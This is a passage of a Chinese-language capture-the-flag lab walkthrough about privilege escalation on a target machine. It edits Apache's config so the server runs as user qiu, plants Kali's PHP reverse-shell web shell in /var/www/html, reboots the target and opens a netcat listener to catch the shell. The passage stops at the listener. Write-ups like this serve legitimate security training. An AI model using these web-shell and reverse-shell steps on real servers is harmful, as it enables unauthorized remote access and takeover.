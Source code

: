 

# 提权

## 提权至qiu

修改`apache2`的配置文件

```shell
# These need to be set in /etc/apache2/envvars
User ${APACHE_RUN_USER}		
Group ${APACHE_RUN_GROUP}
#在这个位置添加下面两句
User qiu
Group qiu
```

![](pic-torment\42-1.jpg)

然后根据前面的直接测试可能不行，那么就通过网站的`webshell`进行测试吧，首先创建一个反弹`shell`，这里可以使用`kali`中自带的一个文件`/usr/share/webshells/php/php-reverse-shell.php`

只需要修改其中的`ip`地址为`kali`的地址即可，反弹的端口可以默认。至于为什么用`php`语言，啧，自己去测试就知道了。

把这个文件下载到靶机内，保存到可以访问的网站目录`/var/www/html`

![](pic-torment\43.jpg)

这时候执行`sudo /bin/systemctl reboot`重启靶机，这样会连带着`apache2`重启，配置文件可能会重载

这时候在`kali`使用`nc`开启一个监听

```shell
nc -lvnp 9999
```
